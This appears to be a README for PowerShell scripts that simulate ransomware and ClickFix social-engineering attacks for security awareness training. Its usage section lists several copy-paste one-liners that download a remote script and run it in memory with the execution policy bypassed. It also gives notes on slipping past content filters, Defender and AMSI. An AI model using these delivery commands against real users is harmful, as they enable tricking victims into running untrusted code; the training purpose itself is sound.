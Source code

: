 # Simalicious - Cybersecurity Training Scripts

PowerShell scripts that simulate malicious activity for cybersecurity awareness training. These scripts demonstrate common attack patterns without causing actual harm.

## ⚠️ IMPORTANT DISCLAIMER

**THESE SCRIPTS ARE FOR EDUCATIONAL AND TRAINING PURPOSES ONLY**

- No files are actually encrypted or harmed
- No real malicious activity occurs
- All actions are simulated for learning
- Do not use these scripts for illegal purposes
- Always run in controlled training environments

## 🎯 Training Scenarios

### Phishing & ClickFix Attacks
These scripts simulate the PowerShell-based attacks commonly delivered through:
- Phishing emails with malicious attachments
- "ClickFix" social engineering (fake error messages)
- Malicious websites instructing users to run PowerShell commands
- Tech support scams

## 📁 Files Included

### `simalicious.ps1` - Main Simulation Script
The comprehensive malware simulation that demonstrates:
- System reconnaissance and information gathering
- File discovery and targeting
- Fake encryption process with progress indicators
- Ransomware note creation
- Persistence mechanism simulation
- Command & Control (C2) communication simulation
- Anti-analysis techniques

**Usage:**
```powershell
# Basic execution
.\simalicious.ps1

# Verbose mode (shows detailed operations)
.\simalicious.ps1 -Verbose

# Quick mode (faster execution for demos)
.\simalicious.ps1 -QuickMode


# Usage examples that attackers might instruct victims to run:

# Windows - Via Run Dialog (Win+R) - Short URL version:
powershell -ep bypass -c "iex (iwr 'https://bit.ly/simalicious').Content"

# Windows - Via Run Dialog (Win+R) - Two-step download method:
powershell -ep bypass -c "iwr 'https://raw.githubusercontent.com/ifrantic/simalicious/refs/heads/main/simalicious.ps1' -UseBasicParsing -OutFile $("$($env:temp)/s.ps1")"; & $("$($env:TEMP)/s.ps1")

# Windows - Via Run Dialog (Win+R) - Base64 encoded (bypasses some content filters):
powershell -ep bypass -enc <base64_encoded_command>

# Cross-platform - Via Terminal/Command Prompt (requires PowerShell):
powershell -ExecutionPolicy Bypass -Command "Invoke-Expression (Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/ifrantic/simalicious/refs/heads/main/simalicious.ps1' -UseBasicParsing).Content"

# Alternative download methods (may bypass some protections):
# Method 1: Download then execute from temp
powershell -ep bypass -c "iwr 'https://raw.githubusercontent.com/ifrantic/simalicious/refs/heads/main/simalicious.ps1' -UseBasicParsing -OutFile $env:temp\script.ps1; & $env:temp\script.ps1"

# Method 2: Using Start-BitsTransfer (alternative download method)
powershell -ep bypass -c "Start-BitsTransfer 'https://raw.githubusercontent.com/ifrantic/simalicious/refs/heads/main/simalicious.ps1' $env:temp\s.ps1; & $env:temp\s.ps1"

# Method 3: Using .NET WebClient (older method, sometimes bypasses modern filters)
powershell -ep bypass -c "(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/ifrantic/simalicious/refs/heads/main/simalicious.ps1')|iex"

```
## 🚨 Common Attack Patterns Demonstrated

### 1. Windows ClickFix Pattern
Attackers often instruct Windows victims to:
1. Press `Windows + R` to open Run dialog
2. Paste a malicious PowerShell command
3. Press Enter to execute

**Note**: Win+R has a ~260 character limit, so attackers use:
- **Short URLs** (bit.ly, tinyurl) to bypass length limits
- **Two-step methods** (download first, then execute)
- **Base64 encoding** to obfuscate commands
- **Alternative download methods** to bypass content filters

### 2. Defender/AMSI Bypass Considerations
For training campaigns, be aware that Windows Defender may still block even with hash allow lists because:
- **In-memory execution** doesn't create files with calculable hashes
- **AMSI scanning** occurs at runtime regardless of file hashes
- **Behavioral analysis** flags suspicious PowerShell patterns
- **URL reputation** may block known malicious domains

**Training Environment Solutions**:
- Use internal web servers instead of public GitHub
- Configure group policy to allow PowerShell from trusted sources
- Temporarily adjust AMSI settings in isolated training networks
- Use signed scripts with trusted certificates

### 2. Linux/macOS ClickFix Pattern
Attackers often instruct Linux/macOS victims to:
1. Press `Ctrl + Alt + T` (Linux) or `Cmd + Space` then type "Terminal" (macOS)
2. Paste a malicious PowerShell command
3. Press Enter to execute

### 3. Cross-Platform Social Engineering
- **Fake error messages** claiming system compromise
- **Urgent instructions** to "fix" the problem immediately
- **Technical-sounding commands** that victims don't understand
- **Authority impersonation** (IT support, Microsoft, etc.)


## 🛡️ Training Value

This simulation helps learners understand:

### Attack Techniques
- How malware gathers system information
- File discovery and targeting methods
- Encryption simulation and ransom demands
- Persistence and stealth techniques
- Command and control communication

### Social Engineering
- ClickFix attack methodology
- PowerShell-based delivery mechanisms
- Urgency and fear tactics in ransom notes
- Technical instruction obfuscation

### Detection Opportunities
- Suspicious PowerShell execution patterns
- Network communication indicators
- File system changes and artifacts
- Registry and persistence modifications

## 🔧 Training Environment Setup

### Prerequisites
**Windows:**
- Windows system with PowerShell 5.0+
- Ability to run PowerShell scripts
- Controlled/isolated training environment

**Linux:**
- PowerShell Core installed (`sudo apt install powershell` or equivalent)
- Terminal access
- Controlled/isolated training environment

**macOS:**
- PowerShell Core installed (`brew install powershell`)
- Terminal access
- Controlled/isolated training environment


## 🧹 Cleanup

The simulation creates temporary files for realism:

### Automatic Cleanup Locations
**Windows:**
- Temp directory: `%TEMP%\simalicious_training\`
- Desktop ransom note: `Desktop\README_SIMALICIOUS_TRAINING.txt`
- Additional temp files in `%TEMP%`

**Linux/macOS:**
- Temp directory: `/tmp/simalicious_training/`
- Desktop ransom note: `~/Desktop/README_SIMALICIOUS_TRAINING.txt`
- Additional temp files in `/tmp/`

### Manual Cleanup
**Windows:**
```powershell
# Remove simulation artifacts
Remove-Item "$env:TEMP\simalicious_training" -Recurse -Force -ErrorAction SilentlyContinue
Remove-Item "$env:USERPROFILE\Desktop\README_SIMALICIOUS_TRAINING.txt" -Force -ErrorAction SilentlyContinue
Remove-Item "$env:TEMP\YOUR_FILES_ARE_ENCRYPTED.txt" -Force -ErrorAction SilentlyContinue
Remove-Item "$env:TEMP\TRAINING_RANSOM_NOTE.txt" -Force -ErrorAction SilentlyContinue
```

**Linux/macOS:**
```bash
# Remove simulation artifacts
rm -rf /tmp/simalicious_training
rm -f ~/Desktop/README_SIMALICIOUS_TRAINING.txt
rm -f /tmp/YOUR_FILES_ARE_ENCRYPTED.txt
rm -f /tmp/TRAINING_RANSOM_NOTE.txt
```

---

**Remember**: The best defense against these attacks is user education and technical controls working together!
